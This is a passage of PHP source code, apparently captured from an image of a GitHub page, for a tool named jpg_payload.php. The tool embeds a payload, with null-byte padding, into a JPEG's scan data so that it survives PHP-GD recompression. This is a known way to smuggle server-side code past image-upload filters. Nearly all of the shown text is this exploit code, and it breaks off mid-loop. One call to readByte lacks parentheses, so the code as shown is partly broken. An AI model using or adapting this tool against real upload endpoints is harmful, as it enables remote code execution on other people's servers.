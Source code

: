 ```php
	if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
    	die('php-gd is not installed');
	}
	
	if(!isset($argv[1])) {
		die('php jpg_payload.php <jpg_name.jpg>');
	}

	set_error_handler("custom_error_handler");

	for($pad = 0; $pad < 1024; $pad++) {
		$nullbytePayloadSize = $pad;
		$dis = new DataInputStream($argv[1]);
		$outStream = file_get_contents($argv[1]);
		$extraBytes = 0;
		$correctImage = TRUE;

		if($dis->readShort() != 0xFFD8) {
			die('Incorrect SOI marker');
		}

		while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
			$marker = $dis->readByte();
			$size = $dis->readShort() - 2;
			$dis->skip($size);
			if($marker === 0xDA) {
				$startPos = $dis->seek();
				$outStreamTmp = 
					substr($outStream, 0, $startPos) . 
					$miniPayload . 
					str_repeat("\0",$nullbytePayloadSize) . 
					substr($outStream, $startPos);
				checkImage('_'.$argv[1], $outStreamTmp, TRUE);
				if($extraBytes !== 0) {
					while((!$dis->eof())) {
						if($dis->readByte() === 0xFF) {
							if($dis->readByte !== 0x00) {
								break;
							}
						}
					}
					$stopPos = $dis->seek() - 2;
					$imageStreamSize = $stopPos - $startPos;
					$outStream = 
						substr($outStream, 0, $startPos) . 
						$miniPayload . 
						substr(
							str_repeat("\0",$nullbytePayloadSize).
								substr($outStream, $startPos, $imageStreamSize),
							0,
							$nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
								substr($outStream, $stopPos);
				} elseif($correctImage) {
					$outStream = $outStreamTmp;
				} else {
					break;
				}
				if(checkImage('payload_'.$argv[1], $outStream)) {
					die('Success!');
				} else {
					break;
				}
			}
```